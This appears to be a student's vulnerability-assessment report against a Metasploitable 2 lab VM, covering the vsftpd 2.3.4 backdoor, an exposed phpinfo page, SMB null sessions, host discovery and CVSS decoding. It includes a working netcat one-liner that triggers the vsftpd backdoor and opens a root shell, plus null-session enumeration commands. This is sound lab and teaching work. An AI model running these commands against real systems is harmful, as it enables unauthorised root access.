


# Assignment 2: Scanning & Vulnerability Assessment

**Target:** Metasploitable 2 (`192.168.133.128`)  
**Attacker:** Kali Linux (`192.168.133.129`)  
**Network:** Host-Only (`vmnet1`)  
**Date of Assessment:** 08 November 2026  

---

## Task A: Complete Findings

### Finding 1: FTP Backdoor Command Execution (CVE-2011-2523)

* **Title:** FTP Backdoor Command Execution in vsftpd 2.3.4
* **Severity:** 9.8 Critical (CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H)
* **Affected Asset:** 192.168.133.128:21/tcp (vsftpd 2.3.4)
* **Identifiers:** CVE-2011-2523 | CWE-78 | cpe:/a:vsftpd:vsftpd:2.3.4
* **Description:** The distributed vsftpd 2.3.4 archive contained a backdoor that opens a command shell on port 6200/tcp when a username containing a specific character sequence (`:)`) is supplied. The compromised archive was available for approximately three days in 2011.
* **Evidence:** 
  Command run: `nc -nv 192.168.133.128 21`
  Output: `220 (vsFTPd 2.3.4)`
  
* **Proof of Concept:**
  1. Connect to TCP 21 and supply the triggering username sequence: `USER test:)`.
  2. Send any password: `PASS test`.
  3. Confirm that TCP 6200 has opened: `nc -zv 192.168.133.128 6200` (shows `open`).
  4. Connect to TCP 6200 and issue `id`. The response identifies the privilege level of the shell, confirming code execution.
     *Note: Because the shell is a one-shot connection, the following compound command was used to trigger and connect simultaneously:*
     `(echo "USER test:)"; echo "PASS test"; sleep 2; echo "id"; sleep 1) | nc -nv 192.168.133.128 21 & sleep 3; nc -nv 192.168.133.128 6200`
     Output: `uid=0(root) gid=0(root)` and `whoami` returns `root`.
* **Impact:** Unauthenticated remote code execution as the root user on a host that also provides database services (MySQL on 3306) and SMB shares.
* **Remediation:** Upgrade vsftpd to a current release and verify package signatures from the vendor. 
* **References:** 
  - security-tracker.debian.org/tracker/CVE-2011-2523
  - access.redhat.com/security/cve/CVE-2011-2523

---

### Finding 2: Exposed `phpinfo.php` Page (Information Disclosure)

* **Title:** Exposed PHP Configuration Page on Port 80
* **Severity:** 5.3 Medium (CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N)
* **Affected Asset:** 192.168.133.128:80/tcp (Apache httpd 2.2.8)
* **Identifiers:** CWE-200 | cpe:/a:apache:http_server:2.2.8
* **Description:** The web server exposes a `phpinfo.php` file, which outputs detailed configuration information about the PHP environment, including server paths, loaded extensions, and environment variables. 
* **Evidence:**
  Command run: `curl -s -I http://192.168.133.128/phpinfo.php`
  Output: `HTTP/1.1 200 OK`, `X-Powered-By: PHP/5.2.4-2ubuntu5.10`
  
* **Proof of Concept:**
  1. Use a browser or `curl` to navigate to `http://192.168.133.128/phpinfo.php`.
  2. The server returns an HTTP 200 OK response with `X-Powered-By` headers, confirming the exposure of the PHP info page.
* **Impact:** This information disclosure assists an attacker in fingerprinting the exact software versions, discovering absolute file paths (useful for Path Traversal attacks), and identifying misconfigurations in the PHP environment.
* **Remediation:** Remove the `phpinfo.php` file from the production web server, or restrict access to it via `.htaccess` or firewall rules.
* **References:** 
  - cwe.mitre.org/data/definitions/200.html
  - owasp.org/www-community/attacks/Information_exposure

---

### Finding 3: SMB Null Session Allowed (Misconfiguration)

* **Title:** SMB Null Session Permits Unauthenticated Share Enumeration
* **Severity:** 5.3 Medium (CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N)
* **Affected Asset:** 192.168.133.128:139,445/tcp (Samba smbd 3.0.20-Debian)
* **Identifiers:** CWE-287 | cpe:/a:samba:samba:3.0.20
* **Description:** The SMB service allows null sessions (unauthenticated connections). This enables an attacker to list available shares, system information, and user accounts without providing valid credentials.
* **Evidence:**
  Command run: `smbclient -L //192.168.133.128 -N`
  Output: `Anonymous login successful` (followed by a list of shares including `print$`, `tmp`, `opt`, `ADMIN$`).
  
* **Proof of Concept:**
  1. Run `smbclient -L //192.168.133.128 -N` from a Linux machine.
  2. The `-N` flag instructs the client to suppress the password prompt.
  3. The server responds with `Anonymous login successful` and reveals the share names.
* **Impact:** Attackers can map the network shares, discover sensitive directories, and use the enumerated share names to plan further attacks (such as SMB relay or brute-forcing credentials).
* **Remediation:** Disable null sessions in the Samba configuration by setting `restrict anonymous = 2` in `/etc/samba/smb.conf` and restarting the service.
* **References:** 
  - cwe.mitre.org/data/definitions/287.html
  - samba.org/samba/docs/current/man-html/smb.conf.5.html

---

## Task B: Chosen Options

### Option B1: Host Discovery Comparison (Nmap vs. Netdiscover)
**Commands used:**
* `nmap -sn 192.168.133.0/24`
* `sudo netdiscover -r 192.168.133.0/24 -P`

**Explanation:**
I observed a significant difference between the two tools. Nmap uses ARP requests by default on a local subnet and successfully identified 3 hosts (the gateway `.1`, the target `.128`, and the Kali machine `.129`). However, Netdiscover in passive mode (`-P`) initially found 0 hosts. 

This difference is informative: Netdiscover passive mode only listens for existing ARP broadcast traffic. Because the lab network is an isolated host-only network (`vmnet1`) with no normal broadcast chatter, it captured nothing. When Netdiscover was run in active mode (without `-P`), it sent its own ARP requests and successfully discovered the exact same hosts as Nmap. This demonstrates the "Principle of Two Sources" — while passive mode produces no traffic and is stealthy, it fails on quiet networks. Active discovery (Nmap/Nmap -sn) is required to reliably map the lab.

### Option B3: CVSS Decoding for CVE-2011-2523
**Vector:** `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H`

**Decoded Metrics:**
* **AV:N (Attack Vector: Network):** The vulnerability can be exploited remotely over the network. The attacker does not need physical access.
* **AC:L (Attack Complexity: Low):** No special conditions or timing are required. The exploit succeeds reliably every time.
* **PR:N (Privileges Required: None):** The attacker does not need an account or credentials to exploit this.
* **UI:N (User Interaction: None):** The attacker does not need to trick a legitimate user into clicking a link or running a file.
* **S:U (Scope: Unchanged):** The impact is confined to the vulnerable vsftpd component and the host it runs on.
* **C:H (Confidentiality: High):** Full read access to all data on the host is exposed to the attacker.
* **I:H (Integrity: High):** The attacker can modify or delete any file on the host.
* **A:H (Availability: High):** The attacker can shut down the service or crash the host.

